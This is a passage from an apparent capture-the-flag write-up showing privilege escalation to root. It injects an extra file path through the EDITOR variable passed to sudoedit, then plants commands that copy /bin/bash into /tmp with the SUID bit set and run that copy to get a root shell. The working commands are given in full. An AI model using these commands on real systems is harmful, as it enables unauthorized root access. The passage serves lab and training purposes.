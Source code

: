 
So we need to open `vim` on this environment's editor, so that after we change `EDITOR` environment variable,we need to change `/app/config_test.json` file to add our malicious command.
```bash
export EDITOR='vim -- /app/venv/bin/activate'
sudo -u dev_admin sudoedit /app/config_test.json
```

![alt text](img/image-27.png)

I will add malicious command which makes copy of `/bin/bash` file and give `SUID` privilege to this copied `/bin/bash` file.
```bash
cp /bin/bash /tmp/dr4ks
chmod 4777 /tmp/dr4ks
```

![alt text](img/image-26.png)


Hola, I look at `/tmp` directory and my copied `/bin/bash` file is there, I run this via `-p` option to get root shell.

root.txt

![alt text](img/image-28.png)